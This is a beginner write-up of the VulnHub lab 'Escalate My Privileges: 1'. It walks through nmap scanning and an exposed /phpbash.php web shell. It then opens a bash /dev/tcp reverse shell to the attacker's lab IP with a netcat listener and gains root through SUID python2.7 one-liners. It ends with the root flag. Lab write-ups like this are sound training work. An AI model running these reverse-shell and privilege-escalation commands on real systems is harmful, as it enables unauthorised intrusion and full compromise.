


<p align="center">
  
</p>

---

<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - Escalate My Privileges: 1</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>27.09.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy / Beginner Level</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Privilege Escalation</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595 - Active Scanning</b></td>
      <td>Scanning the target system. Identifying open ports and services</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1190 - Exploit Public-Facing Application</b></td>
      <td>gaining access to the system through a public page with a web shell</td>
    </tr>
    <tr>
      <td align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1083 - File and Directory Discovery</b></td>
      <td>Detecting a potentially dangerous executable file with the SUID bit set as root</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548 - Abuse Elevation Control Mechanism</b></td>
      <td>exploiting an executable file with the SUID bit set</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{628435356e49f976bab2c04948d22fe4}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> We load the image of the vulnerable machine into `virtualbox`:

<p align="center">
 
</p>

> IP address of the machine being attacked - `192.168.50.149`

---
## 🕵️  Reconnaissance

> We start scanning the machine for open ports and services using `nmap` in two stages:

```bash

sudo nmap -p- -vv -T5 --min-rate=1000 192.168.50.149 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -vv -A -n 192.168.50.149 -oN full_scan_results

```
```bash

Discovered open port 111/tcp on 192.168.50.149
Discovered open port 22/tcp on 192.168.50.149
Discovered open port 80/tcp on 192.168.50.149
Discovered open port 20048/tcp on 192.168.50.149
Discovered open port 2049/tcp on 192.168.50.149

```
```bash

22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 1 disallowed entry
|_/phpbash.php
|_http-title: Check your Privilege

```
> From the scan results I see some interesting open ports:

`22 (ssh)` - used for ssh connections (OpenSSH 7.4)
`80 (web/http)` - web server is running (Apache 2.4.6)

> Open the resource in the browser:

<p align="center">
 
</p>

> Just a picture. Nothing interesting.

> The scan revealed the presence of the page `/phpbash.php` in `robots.txt`. This can also be seen by manually navigating to `/robots.txt` in the browser:

<p align="center">
 
</p>

<p align="center">
 
</p>

---
## 🔓 Initial Access

> Navigate to `/phpbash.php` in the browser and you’ll see a `web-based command shell` running with the privileges of the `apache` user:

<p align="center">
 
</p>

> For convenience, we forward the reverse shell to our system:

```bash

bash -c 'bash -i >& /dev/tcp/192.168.50.127/4444 0>&1'

```
```bash

nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 192.168.50.149 38824
bash: no job control in this shell

bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.2$

```
> We are upgrading this shell to `pty` (`pseudo`):

```bash

bash-4.2$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ ^Z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
---
## 🔑⬆️    Vertical Privilege Escalation

> Let's list files with the `SUID` bit set:

```bash

bash-4.2$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```
<p align="center">
 
</p>

> I see a `python2.7` executable with the `SUID` bit set running as `root`. This is a potential vector for `privilege escalation`.

> [!IMPORTANT]
`SUID (Set User ID)` — This is a special permissions bit that can be set on an executable file in Linux. When a file with SUID set is executed, it
runs with the permissions of the file's owner, not the user who executed it.

> Next, either go to `gtfobins` and get the command to get the root's `EUID` from there:

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
sh-4.2# id
uid=48(apache) gid=48(apache) euid=0(root) groups=48(apache)

```
> Or we manually write a one-liner in `python` to get `full root`, setting the `UID` of the current process to `0` (that is, `root`):

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")
[root@my_privilege html]# id
uid=0(root) gid=48(apache) groups=48(apache)

```
> In both cases, we obtain root privileges and get the `root flag` in the directory - `/root`:

```bash

[root@my_privilege root]# cd /root
[root@my_privilege root]# ls
proof.txt
[root@my_privilege root]# cat proof.txt
Best of Luck
628435356e49f976bab2c04948d22fe4
[root@my_privilege root]#

```
> root flag - `628435356e49f976bab2c04948d22fe4`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>628435356e49f976bab2c04948d22fe4</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> [!NOTE]
During the attack on the `Escalate My Privileges: 1` system, a network scan revealed an insecure publicly accessible page at `/phpbash.php`, which provided a web-based command shell
running with the privileges of the `apache` user. This allowed for `Initial Access` to the system by establishing a reverse shell to the attacker's machine.
Subsequent local `Enumeration` identified a potentially dangerous executable `python2.7` with the `SUID` bit set and owned by `root`. This led to full system compromise by leveraging a
one-liner in python to `Escalate Privileges`.
